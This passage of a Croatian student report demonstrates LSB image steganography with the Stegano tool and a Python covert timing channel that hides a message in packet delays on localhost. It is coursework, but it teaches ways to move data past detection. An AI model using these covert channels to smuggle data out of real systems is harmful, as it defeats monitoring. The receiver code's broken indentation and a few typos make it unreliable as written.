Sloj zamagljivanja (*eng. obfuscation layer*) potrebno je istaknuti u kontekstu digitalne forenzike. Ti slojevi pružaju dodatne razine zaštite od napadača. Što je slojeva više, poruka je manje uočljiva i više sigurna. Budućnost steganografije vjerojatno leži u sve debljim i neprozirnijim nizovima takvih slojeva. Međutim, najveće mogućnosti za budućnost steganografije nalaze se u dimenziji izvan ravnih slika. Sve do prije nekoliko godina tehnike su se uglavnom usredotočivale na ugrađivanje podataka mijenjanjem vrijednosti piksela. Porast dostupnosti 3D hardvera za CAD, virtualnu stvarnost, videoigre i 3D tiskanje usmjerio je pozornost steganografije prema korištenju 3D geometrije kao nositelja podataka.

## 3.1. Plan izrade praktičnog dijela

Praktični dio rada temelji se na izgradnji i simulaciji okruženja u kojem se demonstrira stvarno funkcioniranje digitalne steganografije. U ovoj fazi provedena će biti izrada, testiranje i analiza postupaka skrivanja podataka unutar digitalnih slika korištenjem LSB (*Least Significant Bit*) tehnike korištenjem Stegano alata te skripti razvijenih tijekom projekta. Naglasak je stavljen na generiranje, umetanje i izdvajanje skrivenih informacija, kao i na automatizaciju procesa putem Bash i Python skripti.

## 3.2. Metode i tehnike rada

U početnom koraku simulirano je skrivanje različitih vrsta podataka, od običnog teksta, tekstualnih datoteka, binarnih datoteka te audio zapisa (u .m4a obliku) pretvaranjem sadržaja u Base64 zapis i njegovim umetanje unutar LSB komponenti PNG slike. Time je praktično demonstrirano kako se uz minimalne vizualne promjene u slici može prenijeti značajna količina podataka bez detekcije golim okom.

Nadalje, implementirana je automatizacija procesa sakrivanja i otkrivanja podataka izradom posebnih skripti (*sakrivanje.sh* i *otkrivanje.sh*) koje omogućuju korisniku sigurno i ponovljivo izvršavanje metoda steganografije. Time je stvoreno okruženje koje replicira realni napadački scenarij u kojem se podaci mogu slati prikriveni unutar naizgled benignih slika, uz minimalan trag na mreži i u sustavu.

Također je prikazano kako izgledaju slike koje sadrže skrivene podatke kada se analiziraju pomoću alata za analizu i pregleda vizualnih artefakata, te je pojašnjeno zašto PNG format pogoduje LSB tehnici, dok JPG onemogućava pouzdano steganografsko skrivanje zbog gubitne kompresije.

Ovakav praktični pristup omogućio je jasnu ilustraciju koncepta digitalne steganografije, uključujući ograničenja kapaciteta, utjecaj formata slike i nužnost enkripcije kod osjetljivih podataka. Uz to je demonstriran i potencijalni sigurnosni rizik za računalne sustave, budući da ovakve metode omogućuju prikriveni prijenos podataka koji izmiče tradicionalnim metodama detekcije. Detaljna simulacija zato predstavlja važan korak u razumijevanju tehničke izvedbe steganografskih napada, kao i njihove moguće uloge u kibernetičkim napadima i prijetnjama.

## 3.3. Praktični dio

U sklopu praktičnog dijela rada odabrane su originalne slike u koje je pomoću alata Stegano u terminalo uvrštena poruka, tekstualna datoteka te zvučni zapis. Uz to su napravljene i dvije skripte za automatizaciju umetanja poruke i dešifriranja iste iz izmjenjene slike.

### 3.3.1. Umetanje poruke u terminalu

Za primjer se koristi originalna slika sa dodjele diploma.


Slika 1 je u .jpg formatu, a druga u .png formatu kako bi se testiralo koje tehnike rade na oba, a koje samo na .png fotografijama.

Za početak je preuzet stegano pomoću naredbi:

sudo apt install pipx

pipx ensurepath

pipx install stegano

Zatim je u fotografiju (1), veličine 633,5 kB (633.463 bytes), umetnuta tajna poruka. Za umetanje tajne poruke u sliku korištena je slijedeća naredba:


Napravljen je novi .png file, veličine 2,3 MB (2.340.858 bytes), koji sadrži poruku.


Poruka zatim može biti otkrivena iz slike korištenjem naredbe:


Kao što se može primjetiti iz veličine datoteka, rad sa .jpg formatom nije dobar ni optimalan, pa je u nastavku sve rađeno na .png datotekama.

### 3.3.2. Umetanje .txt datoteke u fotografiju

Zatim je u forografiju (2), veličine 7,7 MB (7.745.746 bytes), dodana tekstualna datoteka koja sadrži tekst *Lorem ipsum*. 


Kreirana je nova datoteka sa nazivom sakrrivenFile.png, veličine 7,8 MB (7.841.829 bytes).


Uočena je minimalna promjena veličine .png datoteke nakon umetanja teksta, što ukazuje na to da je LSB metoda izmijenila samo najmanje značajne bitove slike bez vidljivog utjecaja na njezin vizualni prikaz. Takva zanemariva razlika potvrđuje uspješnost i neprimjetnost steganografskog postupka, jer skriveni sadržaj ostaje nedetektiran standardnim vizualnim i površinskim analizama.

Poruka je otkrivena pomoću naredbe:


te je kreirana datoteka sa dešifriranom porukom:


### 3.3.3. Umetanje zvučnog zapisa u fotografiju

Zvučni zapis umetnut je u sliku tako da je najprije pretvoren u Base64 tekstualni oblik, čime je omogućeno njegovo pouzdano kodiranje i prijenos unutar LSB strukture PNG slike. Ovakav pristup korišten je zato što LSB steganografija izvorno prihvaća samo tekstualne podatke, pa Base64 konverzija omogućuje skrivanje bilo kojeg binarnog sadržaja, uključujući audio datoteke, bez gubitka informacija i uz očuvanje vizualne neprimjetnosti slike. 

Zvučni zapis pretvoren je u b64 format


zatim je dobivena datoteka sakrivena unutar fotografije (2) veličine 7,7 MB (7.745.746 bytes).


Dobivena datoteka vizualno nema promjena od originalne slike, no njih možemo primjetiti u promjeni veličine na 8,1 MB (8.119.714 bytes). Razlog tome je veličina zvučnog zapisa. Iz tog razloga je dobro koristiti originalne fotografije kako drugi ne bi mogli usporediti uređivanu fotografiju sa originalnom, što mogu sa javno dostupnim slikama.


Glasovna poruka zatim je izvučena iz fotografije na slijedeći način:


## 3.4. Automatizacija postupka ubacivanja i isčitavanja poruka unutar slikovnih datoteka

U sklopu praktičnog dijela rada razvijen je skup Bash skripti namijenjenih automatizaciji postupka ubacivanja i izdvajanja skrivenih podataka iz slikovnih datoteka primjenom LSB steganografije. Ove skripte predstavljaju funkcionalni sloj nad postojećim Stegano alatom te omogućuju jednostavnije, ponovljivo i pouzdano izvođenje kompleksnih steganografskih operacija bez potrebe za ručnim unosom dugih naredbi ili prethodnim poznavanjem tehničkih detalja implementacije.

Kreiranje skripte:


Proces ubacivanja podataka temelji se na pretvaranju bilo koje ulazne datoteke, a to mogu biti tekstualni dokumenti, binarna datoteka ili zvučni zapis u Base64 formatu. Ovaj korak nužan je jer LSB metoda može obrađivati samo tekstualne nizove, dok se binarni podaci u izvornom obliku ne mogu izravno umetati u slikovne piksele. Nakon pretvorbe u Base64, skripta automatizirano poziva Stegano alat kako bi modificirala najmanje značajne bitove (LSB) piksela u PNG slici te time sigurno smjestila poruku unutar vizualno neprimjetnog dijela fotografije. Time se uklanja mogućnost ljudske pogreške u ručnom unosu naredbi, a čitav proces postaje skalabilan i primjenjiv u različitim scenarijima.

Skripta za ubacivanje datoteke s porukom unutar slikovne datoteke:


Ubacivanje poruke:


Dobivena je nova datoteka veličine 8,1 MB (8.119.714 bytes):


Skripta za isčitavanje podataka djeluje obrnuto. Iz odabrane stego-slike ekstrahira skriveni Base64 zapis te ga ponovno dekodira u izvornu binarnu datoteku. Na ovaj način omogućuje se pouzdano vraćanje originalnog sadržaja, čime se potvrđuje funkcionalnost i cjelovitost steganografskog procesa. Automatizacija osigurava da se svi koraci, od identifikacije skrivenih bitova do rekonstrukcije datoteke, odvijaju deterministički i bez ručnih intervencija.

Skripta za otkrivanje poruke:


Pokretanje skripte:


Korištenje ovakvih skripti značajno povećava praktičnu vrijednost steganografskih tehnika u stvarnim okruženjima. Automatizacija smanjuje tehničku složenost za krajnjeg korisnika, ubrzava postupak i omogućuje standardizaciju procesa, što je posebno važno u sigurnosnim simulacijama i forenzičkim analizama. Istovremeno, skripte demonstriraju kako se steganografija može integrirati u šire automatizirane sustave za prijenos osjetljivih podataka te naglašavaju potencijal ove tehnike kao dijela naprednih sigurnosnih i komunikacijskih mehanizama.

Skripte su testirane i sa umetanjem .txt datoteka. Umetanjem dobbivena je fotografija veličine 7,8 MB (7.838.862 bytes). Sakrivanje pomoću skripte ili ručno nije učinilo razliku u veličini dobivenih datoteka.


# 4. Covert timing channels - Marin Vabec

Prikriveni vremenski kanali (eng. covert timing channels, dalje CTC) su tip prikrivenih kanala za slanje informacija koristeći postojeće resurse sustava koji originalno nisu namijenjeni tome te se često koriste kako bi se zaobišli sigurnosni protokoli.
Kroz CTC se podaci šalju tako da se manipulira intervalima izvođenja nekih vremenski specifičnih događaja, npr. stizanje paketa. Za primjer, neki podatak ili informacija se može prvo šifrirati u binarni kod, te se svaki bit nalazi u vremenskom razmaku slanja 2 paketa. U tom primjeru, kraće slanje paketa može simbolizirati binarnu nulu, dok dulje slanje paketa simbolizira binarnu jedinicu. Primatelj šifriranog koda mora samo promatrati i bilježiti vremena dostavljenih paketa i zatim dešifrirati binarni kod u ASCII ili koji drugi početni kod.
 S obzirom da CTC-ovi utječu samo na slanje paketa te ne utječu na same pakete, teže ih je zamijetiti provjeravanjem stiglih paketa.
CTC-ovi se dijele na 2 kategorije: aktivni i pasivni. Kod aktivnih CTC-ova, pošiljatelj i primatelj eksplicitno uspostavljaju vezu komunikacije. Kod pasivnih CTC-ova, slanje podataka se oslanja na komunikaciju putem otvorenih kanala.
U ovom projektu, radi se aktivni CTC, gdje pomoću socketa, pošiljatelj i primatelj uspostavljaju vezu, te pošiljatelj šalje šifrirane podatke.

## 4.1. Plan izrade praktičnog dijela
Planirano je izrada dvije skripte koje će simulirati pošiljatelja tajne poruke te primatelja tajne poruke. Koristit će se Linux okruženje te Python programski jezik. U Pythonu, koristit će se programiranje TCP socketa. Slanje paketa će se odvijati na lokalnoj mreži. Cilj je postići konzistentno slanje i dešifriranje poruke putem CTC-a.

## 4.2 Metode i tehnike rada
Za postavljanje virtualnog okruženja korišten je Oracle Virtual Box. Bitno je da je korištena izolirana okolina kako ne bi došlo do vanjskih smetnji te kako bi testiranje prošlo što kvalitetnije. 
Operacijski sustav koji je korišten je Ubuntu/Linux Mint 22. Ovaj OS je odabran zbog stabilnosti, jednostavnosti konfiguracije mrežnih servisa i dostupnosti potrebnih alata.
Za nadzor i analizu mrežnog prometa koriste se alati:

- Wireshark - za detaljnu grafičku analizu paketa, dekodiranje DNS upita i odgovora te praćenje anomalija u prometu.

- tcpdump - za tekstualno praćenje prometa u stvarnom vremenu, posebno korisno za verifikaciju da se tunelirani sadržaj doista pojavljuje unutar DNS paketa.

Programi pošiljatelja i primatelja su izrađeni pomoću jezika Python i TCP socketa.

## 4.3 Praktično dio
Kako bi se simuliralo slanje tajnih podataka manipuliranjem vremena slanja paketa, izrađene su dvije Python skripte.
Skripta sender.py predstavlja pošiljatelja, tj. TCP server, dok skripta receiver.py predstavlja primatelja poruke, tj. TCP klijent.

### 4.3.1 Program pošiljatelja
Prva skripta sender.py, simulira pošiljatelja tajne poruke. Čeka da se neki korisnik spoji na njegovu vezu te mu šalje pakete u vremenskim razmacima koji se mogu očitati i dešifrirati. 
```
import socket
import time
import binascii 
```
Ovaj isječak koda predstavlja biblioteke potrebne da kod radi.
- socket: koristi se za izradu TCP socketa za iščekivanje klijenta i slanje paketa
- time: iz ove biblioteke se koristi sleep() metoda, koja služi da pauzira program na željeno vrijeme
- binascii: iz ove biblioteke se koristi metoda hexlify() koja pretvara podatke u heksadecimalni zapis
```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("", 8080))
```
Ovaj isječak postavlja TCP server na lokalnu adresu na port 8080.
```
covert = "TAJNA PORUKA " + "EOF"
msg = "Obična poruka"
covert_bin = ""
for i in covert:
    covert_bin += bin(int(binascii.hexlify(i.encode()), 16))[2:].zfill(8)
```
Ovaj isječak postavlja tajnu i površnu poruku. Površna poruka je ona koja se šalje normalnim putem, a tajna se šifrira znak po znak. Prvo se znak pretvori u bajtove (i.encode()), te se zatim pretvaraju u heksadecimalni kod te u binarni. Rezultatu se zatim miču prva dva bita ([2:]), te se dopunjuju nule kako bi konačan rezultat imao točno 8 bitova (zfill(8)).
```
s.listen(0)
c,addr = s.accept()
```
Nakon toga se postavlja TCP server koji osluškuje i iščekuje klijenta.
```
n = 0
count = 0
while(count < len(covert_bin)):
    for i in msg:
        c.send(i.encode())
        if (covert_bin[n] == "0"):
            time.sleep(0.025)
        else:
            time.sleep(0.1)
        n = (n + 1) % len(covert_bin)
        count += 1
c.send("EOF".encode())
c.close()
```
Kada se neki klijent spoji, šalje mu se poruka. Tajna poruka se šalje tako da se površna poruka šalje znak po znak, a razmak između poslanih znakova označava jedan bit tajne poruke. Ako je bit nula, razmak između poslanih paketa/znakova je 0.025 sekundi, a dok je bit 1, razmak je 0.1 sekunde. Ako površna poruka dođe do kraja, a šifrirana poruka nije cijela prenesena, tekst površne poruke se ponavlja dok se šifrirana poruka ne prenese cijela. Zadnja poslana poruka je EOF (end of file).

### 4.3.2 Program primatelja
Ova skripta simulira TCP klijenta koji se spaja na server i prima podatke te ih dešifrira.
```
import socket
import sys
import time
```
- socket: implementacija TCP socketa
- sys: metode za ispis podataka
- time: očitavanje vremena dolaska paketa 
```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 8080))
paket = s.recv(4096).decode()
```
Ovdje se primatelj spaja na server/povezuje sa pošiljateljem i prima prvi paket.
```
covert_bin = ""
while (paket.rstrip("\n") != "EOF"):
    sys.stdout.write(paket)
    sys.stdout.flush()
    t0 = time.time()
    paket = s.recv(4096).decode()
    t1 = time.time()
    delta = round(t1 - t0, 3)
    sys.stdout.write("\tTime: \t" + str(delta) + "\n")
    sys.stdout.flush()  
    if (delta >= 0.1):
        covert_bin += "1"
    else:
        covert_bin += "0"
s.close()
```
Ovaj dio koda prima svaki sljedeći paket, te zapisuje poslani binarni kod. Prvo očitava vrijeme prije prvog poslanog bita u t0, zatim kad primi bit očitava vrijeme u t1, te razliku t1-t0 zapisuje u delta, zaokruženo na 3 decimale. S obzirom na to da je najkraće moguće čekanje bita 0.1, ako je čekanje dulje od ili jednako 0.1, označuje se da je taj bit jedinica, a ako je kraće (najčešće 0.25-0.26), bit se zapisuje kao nula.  Očitavanje bitova tajne poruke se ponavlja dok ne stigne paket sa tekstom EOF (end of file.) Kada se očita poruka EOF, zatvara se veza.
```
covert = ""
i = 0
while (i < len(covert_bin)):
    b = covert_bin[i:i+8]
    if(len(b) != 8):
        break
       n = int("0b{}".format(b), 2)
    try:
        print("byte:\t" + str(b))
        print("int conversion: " + str(n))
        print("char conversion:\t" + chr(n) + "\n")
               covert += chr(n)
           except:
        covert += "?"
           i += 8
print("\nCovert message: " + covert)
```
Sa cijelim binarnim kodom zapisanim, program ga zatim dešifrira. Kod prolazi kroz binarni zapis bajt po bajt, tj. po 8 bitova, pretvara te bitove u dekadski zapis koji zatim pretvara u ASCII symbol (chr(n)), te njega dodaje u konačan zapis covert koji se ispisuje.

## 4.4 Slanje poruke i snimanje prometa
U ovom dijelu praktičnog rada provedeno je testiranje implementiranog covert timing channel-a. Cilj je bio poslati skrivenu poruku od pošiljatelja prema primatelju, dešifrirati skriptu sa strane primatelja te snimiti taj promet kako bi se mogao analizirati. Proces se sastoji od nekoliko koraka: pokretanja alata za snimanje prometa, pokretanje pošiljatelja, zatim primatelja, snimanje interakcije te analiza tog prometa.

### 2.4.1. Snimanje prometa korištenjem tcpdump alata
Za snimanje prometa koristio se tcpdump, s obzirom da je vrlo jednostavan za korištenje, a rezultati se mogu pregledati u Wiresharku. S obzirom na to da se slanje paketa radi lokalno na portu 8080, postavljeno je takvo snimanje prometa naredbom:
```
sudo tcp dump -Io tcp port 8080 -w ctc_tcp_capture.pcap
```
Tako se snimaju svi TCP paketi koji prolaze kroz lokalno loopback sučelje na portu 8080.

### 2.4.2. Pokretanje programa pošiljatelja
U novom terminalu je pokrenuta sender.py skripta.
```
python sender.py
```
Pokretanjem ove skripte ispisuje se:
```
Tajna poruka: TAJNA PORUKA EOF
```
Time je potvrđeno da je pošiljatelj aktivan te je ispisana tajna poruka koju primatelj mora uspijeti pročitati.

### 2.4.3. Pokretanje programa primatelja
U trećem terminalu se pokreće skripta primatelja receiver.py.
```
python receiver.py
```
Pokretanjem ove skripte, izvodi se komunikacija dva programa, te se u terminalu primatelja ispisuje očitavanje svakog primljenog paketa te vrijeme koje je trebalo da paket stigne, koje započinje ovako:
```
O       Time:   0.026
b       Time:   0.1
i       Time:   0.025
č       Time:   0.1
…
```
Zadnja linija ispisa u tom terminalu je bila 
```
Covert message: TAJNA PORUKA EOF
```
To potvrđuje da je primatelj uspješno primio sve bitove poruke i uspjeno ih dešifrirao.

### 2.4.5. Zaustavljanje tcpdump-a
Završetkom komunikacije, tcpdump se zaustvlja pritiskom tipki Ctrl + C. Alat je ispisao statistiku:


### 2.5 Analiza izvođenja
Kako je izvođenje oba programa završeno, može se analizirati output programa. Posebice kod programa primatelja
```
O       Time:   0.026
b       Time:   0.1
i       Time:   0.025
č       Time:   0.1
n       Time:   0.025
a       Time:   0.1
        Time:   0.026
p       Time:   0.026
o       Time:   0.026
r       Time:   0.101
u       Time:   0.025
k       Time:   0.026
a       Time:   0.026
O       Time:   0.026
b       Time:   0.026
i       Time:   0.102
č       Time:   0.026
n       Time:   0.102
a       Time:   0.026
        Time:   0.026
p       Time:   0.101
o       Time:   0.025
r       Time:   0.102
u       Time:   0.026
k       Time:   0.026
a       Time:   0.102
O       Time:   0.026
b       Time:   0.026
i       Time:   0.101
č       Time:   0.101
n       Time:   0.101
a       Time:   0.025
        Time:   0.025
p       Time:   0.102
o       Time:   0.026
r       Time:   0.025
u       Time:   0.026
k       Time:   0.026
a       Time:   0.026
O       Time:   0.102
b       Time:   0.026
i       Time:   0.026
č       Time:   0.101
n       Time:   0.025
a       Time:   0.026
        Time:   0.026
p       Time:   0.026
o       Time:   0.026
r       Time:   0.026
u       Time:   0.102
k       Time:   0.026
a       Time:   0.102
O       Time:   0.026
b       Time:   0.026
i       Time:   0.026
č       Time:   0.026
n       Time:   0.025
a       Time:   0.101
        Time:   0.026
p       Time:   0.026
o       Time:   0.102
r       Time:   0.102
u       Time:   0.101
k       Time:   0.1
a       Time:   0.025
O       Time:   0.101
b       Time:   0.025
i       Time:   0.101
č       Time:   0.025
n       Time:   0.026
a       Time:   0.101
        Time:   0.025
p       Time:   0.025
o       Time:   0.101
r       Time:   0.025
u       Time:   0.101
k       Time:   0.025
a       Time:   0.101
O       Time:   0.025
b       Time:   0.101
i       Time:   0.025
č       Time:   0.101
n       Time:   0.025
a       Time:   0.026
        Time:   0.101
p       Time:   0.025
o       Time:   0.101
r       Time:   0.101
u       Time:   0.026
k       Time:   0.102
a       Time:   0.026
O       Time:   0.026
b       Time:   0.026
i       Time:   0.026
č       Time:   0.026
n       Time:   0.102
a       Time:   0.025
        Time:   0.025
p       Time:   0.101
o       Time:   0.026
r       Time:   0.026
u       Time:   0.026
k       Time:   0.026
a       Time:   0.026
O       Time:   0.026
b       Time:   0.102
i       Time:   0.026
č       Time:   0.026
n       Time:   0.026
a       Time:   0.102
        Time:   0.026
p       Time:   0.102
o       Time:   0.025
r       Time:   0.102
u       Time:   0.026
k       Time:   0.026
a       Time:   0.102
O       Time:   0.1
b       Time:   0.102
i       Time:   0.102
č       Time:   0.026
n       Time:   0.102
a       Time:   0.026
        Time:   0.026
p       Time:   0.026
o       Time:   0.102
r       Time:   0.102
u       Time:   0.026
k       Time:   0.026
a       Time:   0.102
Binary received: 0101010001000001010010100100111001000001001000000101000001001111010100100101010101001011010000010010000001000101010011110100011001

Convert 8 byte binary to character:
byte:   01010100
int conversion: 84
char conversion:        T

byte:   01000001
int conversion: 65
char conversion:        A

byte:   01001010
int conversion: 74
char conversion:        J

byte:   01001110
int conversion: 78
char conversion:        N

byte:   01000001
int conversion: 65
char conversion:        A

byte:   00100000
int conversion: 32
char conversion:         

byte:   01010000
int conversion: 80
char conversion:        P

byte:   01001111
int conversion: 79
char conversion:        O

byte:   01010010
int conversion: 82
char conversion:        R

byte:   01010101
int conversion: 85
char conversion:        U

byte:   01001011
int conversion: 75
char conversion:        K

byte:   01000001
int conversion: 65
char conversion:        A

byte:   00100000
int conversion: 32
char conversion:         

byte:   01000101
int conversion: 69
char conversion:        E

byte:   01001111
int conversion: 79
char conversion:        O

byte:   01000110
int conversion: 70
char conversion:        F

byte:   01
int conversion: 1
char conversion:

Covert message: TAJNA PORUKA EOF
```
Može se vidjeti da je svaki znak pravilno pročitan.
Osim u samom terminalu, u Wiresharku možemo provjeriti da se iz snimljenog prometa može vidjeti samo površna poruka:

Navedenom analizom možemo zaključiti da je tajna poruka uistinu poslana i primljena, i gotovo je neprimjetna iz drugih perspektiva. U Wireshark pogledu se može vidjeti vrijeme dolaska svakog paketa, ali to samo po sebi nije dovoljno kako bi se otkrilo da uopće postoji tajna poruka.

# 5. SMTP - Dino Primorac
